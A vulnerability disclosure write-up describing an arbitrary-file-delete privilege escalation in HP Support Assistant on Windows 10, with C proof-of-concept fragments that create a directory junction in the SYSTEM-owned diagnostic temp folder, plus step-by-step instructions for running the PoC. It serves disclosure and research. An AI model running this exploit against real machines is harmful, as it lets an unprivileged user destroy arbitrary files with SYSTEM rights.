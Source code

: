 # Arbitrary File Delete Elevation of Privilege in HP Support Assistant

<div>
  <table>
    <tr>
      <th colspan="2">Vulnerability Information</th>
    </tr>
    <tr>
      <td>Platform</td>
      <td>Windows 10 20H2 (OS Build 19042.1387)</td>
    </tr>
    <tr>
      <td>Vendor</td>
      <td>HP (Hewlett-Packard)</td>
    </tr>
    <tr>
      <td>Application</td>
      <td>Support Assistant (Version 9.11.106.0)</td>
    </tr>
    <tr>
      <td>Function</td>
      <td>Operating System Check</td>
    </tr>
    <tr>
      <td>Date of Discovery</td>
      <td>2021-12-01</td>
    </tr>
  </table>
</div>

## Description
It logs and automatically deletes diagnostic data when performing operating system scans in HP Support Assistant running with normal User privileges. At this time, if the path is manipulated through NTFS Mount Point/Directory Junction among Windows Symbolic Links, it can be abused to delete arbitrary files with `SYSTEM` privileges.

## Exploitation
When HP Support Assistant is launched, the HPSAAppLauncher process runs as a child process of the AppHelperCap service. The AppHelperCap service is a basic service provided in HP notebooks and operates with `SYSTEM` privileges. Also, if the functions provided by HP Support Assistant are performed, a new process is launched as a child process of the HPSAAppLauncher process.
HP Support Assistant provides a number of features. If you go to Fix and Diagnostics in Device Support, the operating system check function exists, and when you do that, a new process called HPOSCheck runs with `SYSTEM` privileges.

> **Process Hacker: Check process permissions**

![image](https://user-images.githubusercontent.com/44025989/207381187-5c959a87-4ae1-4468-978f-0c46da69b55e.png)</br>

During the operating system check by the HPOSCheck process, diagnostic data for BITS, Windows Update, Device Center, Maintenance, and Device are created in the following paths with `SYSTEM` privileges, respectively.

```powershell
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\BITS
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\WindowsUpdate
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\DeviceCenter
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\Maintenance
C:\Program Files (x86)\HP\HP Support Framework\Resources\HPOSCheck\Resources\xml\Device
```

The generated data is deleted immediately by automatically calling the `DeleteFileW` function, and at the same time, the diagnostic data saved for each area in the `"C:\Windows\Temp\SDIAG_Random GUID\result"` path are integrated and saved. Afterwards, when the operating system check is finished, the `"SDIAG_Random GUID"` directory created in the path is deleted calling the `DeleteFileW` function with `SYSTEM` privilege.

```C
_TCHAR tempPath[1024] = L"C:\\Windows\\Temp";

WIN32_FIND_DATA data;

HANDLE hFind = FindFirstFile(L"C:\\Windows\\Temp\\SDIAG_*", &data);
if (hFind == INVALID_HANDLE_VALUE)
{
	printf("[!] Cannot Find sdiag Directory\n");
	return 1;
}

_TCHAR* sdiagDir = L"Error";

while (FindNextFile(hFind, &data) != 0)
{
	if (wcscmp(data.cFileName, L".") == 0 || wcscmp(data.cFileName, L"..") == 0)
		continue;
	else sdiagDir = data.cFileName;
}
```

The path where the `"SDIAG_Random GUID"` directory is created has high privileges, so general users cannot access it. However, one of the HP Support Assistant features, Performance Optimization, can be used to delete files in that path.
If the `"C:\Windows\Temp"` path is empty by optimizing the performance while the operating system check is in progress, the operating system check can still have the handle. At this time, if you make a directory junction to the `"result"` directory with an arbitrary path, you can follow the link and delete the files in the target path with `SYSTEM` privilege.

```C
CreateDirectory(sdiagPath, nullptr);
CreateDirectory(fullpath, nullptr);

if (CreateDirectory(fullpath, nullptr) || (GetLastError() == ERROR_ALREADY_EXISTS))
{
	if (!ReparsePoint::CreateMountPoint(fullpath, argv[1], argc > 2 ? argv[2] : L""))
	{
	printf("[!] Error creating mount point - %ls\n", GetErrorMessage().c_str());
		return 1;
	}
}
else
{
	printf("[!] Error creating directory - %ls\n", GetErrorMessage().c_str());
}
```

## Conclusion
1. After verifying user information, start HP Support Assistant.
2. Go to Device Support, then select Fixes and Diagnostics.
3. Run an operating system check.
4. Perform PoC in the format of `HPOSCheck_PoC.exe [target dir]`.
5. When the message `"Start Optimize performance without additional options and press ENTER"` appears, run performance optimization and press ENTER.
6. When the PoC ends with the phrase `"Now Close the operating system check window!!!"`, the operating system check ends.

### Proof of Concept

![image](https://user-images.githubusercontent.com/44025989/207381332-e1bfb343-3d91-4733-9be9-da443ac7d326.png)</br>

### Demo
[![Video Label](http://img.youtube.com/vi/DeQCBZQaGVo/0.jpg)](https://youtu.be/DeQCBZQaGVo)

<!-- ### Countermeasures
When performing operating system checks in HP Support Assistant running with normal user privileges, the `ReparseTag` must be checked internally when the `DeleteFileW` function is called.
-->

## Reference
* **[symboliclink-testing-tools, Developed by James Forshaw](https://github.com/googleprojectzero/symboliclink-testing-tools.git)**

